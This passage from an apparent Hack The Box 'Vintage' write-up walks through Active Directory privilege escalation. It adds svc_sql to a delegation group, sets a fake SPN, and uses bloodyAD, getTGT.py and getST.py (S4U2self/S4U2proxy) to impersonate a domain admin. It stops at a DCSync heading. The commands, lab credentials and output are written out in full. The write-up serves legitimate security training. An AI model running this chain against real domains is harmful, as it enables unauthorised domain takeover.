 This user is part of the `DELEGATEDADMINS` group. Members of this group have the `msds-AllowedToActOnBehalfOfOtherIdentity` attribute on the computer `DC01.VINTAGE.HTB`. We can use these privileges to execute a modified S4U2self/S4U2proxy abuse chain to impersonate any domain user to the target computer system and receive a valid service ticket "as" this user. However, in order to perform the attack we need to have access to an account with an SPN set.

The trick here is that the user `c.neri_adm` has `GenericWrite` over the `DELEGATEADMINS` group and from earlier we have full control over the service account `svc_sql`. Therefore we can add this account to the `DELEGATEADMINS` group and add a fake SPN to the account. By doing this we have all the requirements for a constrained delegation attack. Lets add the `svc_sql` user to the group, change the SPN and get their TGT.

```console
$ bloodyAD --host dc01.vintage.htb --dc-ip 10.10.11.45 -d "VINTAGE.HTB" -u c.neri_adm -p 'Uncr4ck4bl3P4ssW0rd0312' -k add groupMember "DELEGATEDADMINS" "SVC_SQL"
[+] SVC_SQL added to DELEGATEDADMINS

$ export KRB5CCNAME=C.Neri.ccache
$ bloodyAD --host dc01.vintage.htb -d "VINTAGE.HTB" --dc-ip 10.10.11.45 -k set object "SVC_SQL" servicePrincipalName  -v "cifs/bleed" 
[+] SVC_SQL's servicePrincipalName has been updated

$ getTGT.py vintage.htb/svc_sql:Zer0the0ne -dc-ip dc01.vintage.htb
```

In BloodHound the permissions will now look as follows:

![](/assets/images/writeups/vintage/BH-SQL-delegate.png)

With the TGT of `svc_sql` we can now perform a S4U2Self attack in order to impersonate `L.BIANCHI_ADM` since this user has complete control over the domain.

```console
$ export KRB5CCNAME=svc_sql.ccache
$ getST.py -spn 'cifs/dc01.vintage.htb' -impersonate L.BIANCHI_ADM -dc-ip 10.10.11.45 -k 'vintage.htb/svc_sql:Zer0the0ne'  
[*] Impersonating L.BIANCHI_ADM
[*] Requesting S4U2self
[*] Requesting S4U2Proxy
[*] Saving ticket in L.BIANCHI_ADM@cifs_dc01.vintage.htb@VINTAGE.HTB.ccache
```

### DCSync
